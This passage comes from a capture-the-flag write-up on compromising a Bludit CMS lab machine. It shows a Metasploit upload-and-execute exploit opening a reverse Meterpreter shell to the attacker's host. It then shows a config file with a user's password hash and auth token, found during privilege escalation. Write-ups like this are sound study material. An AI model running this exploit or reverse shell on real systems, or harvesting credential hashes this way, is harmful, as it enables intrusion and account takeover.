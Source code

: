 To exploit the application, run the module:

```bash
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.16.6:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading NTvsNmrmdW.png...
[*] Uploading .htaccess...
[*] Executing NTvsNmrmdW.png...
[*] Sending stage (39282 bytes) to 10.10.10.191
[+] Deleted .htaccess
[*] Meterpreter session 1 opened (10.10.16.6:4444 -> 10.10.10.191:51124)

meterpreter > getuid
Server username: www-data (33)
```

A shell spawned as the user www-data.

# Privesc

---

## www-data → hugo

---

There is another bludit installation in the /var/www folder. Let's check the config file:

```json
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
